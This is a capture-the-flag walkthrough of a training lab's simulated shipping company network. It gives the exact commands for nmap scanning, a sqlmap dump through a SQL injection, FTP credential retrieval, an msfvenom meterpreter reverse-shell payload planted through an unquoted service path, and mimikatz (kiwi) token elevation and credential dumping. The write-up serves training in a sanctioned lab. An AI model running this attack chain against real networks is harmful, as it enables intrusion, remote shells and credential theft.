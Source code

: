 ```yaml
---
date: 2025-05-01
categories: [CTF, ImmersiveLabs]
title: "IML - Offensive Cyber Range: Artica Shipping Company"
tags: ['ftp', 'nmap', 'privilege escalation', 'python', 'rce', 'sqli', 'windows']

description: "Offensive Cyber Range Artica Shipping Company - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Offensive Cyber Range: Artica Shipping Company


![image1](../resources/1e3b840d470c411aaf26f2852d9d848d.png)

1.) Enum Host 1

![image2](../resources/6099619d24ba47bfa5eb358c5ffdf784.png)

2.) What type of server does Unknown Host 1 appear to be?
FTP server

3\. ) What version of Apache is Artica's intranet using?
nmap \<Host 4\> -p 80 -A

Version: 2.4.41

4.) Identify vulnerabilities in services or servers:
Go to \<host 4\> port 80

The to= parameter is injectable (test with a simple quote ' )

5.) What type of attack is the Artica intranet vulnerable to?
SQLi

6.) What is the username of the FTP account that can be found in the intranet database?

1.  Open burp and catch the request

![image3](../resources/eeff52988b1f4ac790dc6933ed1832d6.png)

2.  Save the request text to a file, call it 'burpfile':

3.  Run:
```bash
sqlmap -r burpfile --batch --dump-all --exclude-sysdb
```
- We get creds:

![image4](../resources/e150f496b8e64f52b717958b66bb2e3b.png)

\| 1 \| WoWmAgE60 \| b.mocarthy \|

\| 2 \| 0912jgf93FSnjf \| artica-ftp-acc

FTP account: **artica-ftp-acc**

7.) Which of the following directories exists on the FTP server?
Tools


![image5](../resources/26a3e175e9484e5381b1ead7831d3b4c.png)

8.) Which port is NOT open on Unknown Host 2?
21

9.) What is the name of the domain Unknown Host 2 is connected to?
NMAP

artica.office

10.) What is the NetBIOS computer name of Unknown Host 1?
From the NMAP

ARTICA-WIN-FTP

11.) What type of attack is the fax server vulnerable to?

Log into ftp server with creds from sql dump

```bash
ftp 10.102.18.198
cd System Administration
binary #Change to binary mode
get fax-server-info.pdf

```
Read it and we get creds:

**DNS: artica-fax-server**
**User: artica\fax_acc**
**Pw: 03mglosmf!!**

Unknown Host 2 is the fax server

- Connect with xfreerdp:
  
```bash
xfreerdp /v:10.102.17.110 /u:artica\fax_acc /p:'03mglosmf!!' /cert:ignore /dynamic-resolution

```
wmic service get name,displayname,startmode,pathname \| findstr /i /v "C:\Windows\\" \|findstr /i /v """


![image6](../resources/5206b6f5fe5b455d8644e631bce83938.png)

C:\Program Files\Artica Applications\Logging Service\log-srv.exe

```bash
icacls "C:\Program Files\Artica Applications"

```

![image7](../resources/00c478fb05904a58b3780b43a369e1f0.png)

**Unquoted service path**

12.) Exploit the vulnerabilities to obtain the tokens.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.102.52.111 LPORT=9000 -f exe -o Logging.exe

python -m http.server 8080

```
Download rev shell
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.102.52.111; set lport 9000; exploit"
```

Put in C:\Program Files\Artica Applications

```bash
sc qc "Artica Logging Service"

```

![image8](../resources/2a8b376edfa245f8b714507e30f2aeec.png)


![image9](../resources/d4950d26564f42e78ede32462244301c.png)

```bash
sc start "Artica Logging Service"

```

![image10](../resources/4f693e9e88604e3082a64c5d48d952bc.png)


![image11](../resources/3f5fe6eae22a4e3c94ef6bd423313026.png)

ps

migrate to winlogon.exe

```bash
load kiwi

kiwi_cmd "token::elevate /domainadmin"

```

![image12](../resources/e823fa026d6c4d6e935a82584e83e2ae.png)

```bash
creds_all
```

![image13](../resources/926d2092181247c791d7ff27d6e37d63.png)

**emma.thompson : iLOVEbears1204**

13.) What is the token found within the file located on the Administrator's desktop on the domain controller?

On the existing RDP session - Open Remote Desktop and use the creds for Emma


![image14](../resources/0901a51145da4a09bc83fe15414b4748.png)
